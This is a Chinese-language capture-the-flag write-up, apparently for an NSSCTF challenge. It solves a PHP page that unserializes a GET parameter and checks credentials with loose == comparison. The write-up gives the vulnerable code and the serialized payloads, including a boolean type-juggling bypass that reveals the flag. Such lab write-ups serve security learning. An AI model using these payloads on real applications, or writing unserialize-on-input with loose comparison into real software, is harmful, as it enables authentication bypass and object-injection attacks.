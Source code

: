 ![img](./assets/wps271.jpg)

分析源码：

![img](./assets/wps272.jpg) 

 

![img](./assets/wps273.jpg) 

判断是否以get传参info

false则返回空字符串

接着对$info进行反序列化

并且反序列化得到数组

![img](./assets/wps274.jpg) 

数组中username满足

$username = "this_is_secret";

password满足

$password = "this_is_not_known_to_you"; 

 

首先序列化数组

 

 

<?php

show_source(__FILE__);

$username = "this_is_secret";

$password = "this_is_not_known_to_you"; 

include("flag.php");//here I changed those two 

$info = isset($_GET['info'])? $_GET['info']: "" ;

$data_unserialize = unserialize($info);

if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){

  echo $flag;

}else{

  echo "username or password error!";

}

$info=['username'=>"this_is_secret",'password'=>"this_is_not_known_to_you"];

echo serialize($info);

?>

得到

a:2:{s:8:"username";s:14:"this_is_secret";s:8:"password";s:24:"this_is_not_known_to_you";}

构造payload：

[http://node5.anna.nssctf.cn:25235/?info=a:2:{s:8:"username";s:14:"this_is_secret";s:8:"password";s:24:"this_is_not_known_to_you";}](http://node5.anna.nssctf.cn:25235/?info=a:2:{s:8:;s:14:;s:8:;s:24:;})

提示：

 

![img](./assets/wps275.jpg) 

 

 

==弱类型比较

true和什么比较都为真

修改

 

<?php

show_source(__FILE__);

$username = "this_is_secret";

$password = "this_is_not_known_to_you"; 

include("flag.php");//here I changed those two 

$info = isset($_GET['info'])? $_GET['info']: "" ;

$data_unserialize = unserialize($info);

if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){

  echo $flag;

}else{

  echo "username or password error!";

}

$info=['username'=>true,'password'=>true];

echo serialize($info);

?>

 

得到

a:2:{s:8:"username";b:1;s:8:"password";b:1;}

 

![img](./assets/wps276.jpg) 

 

 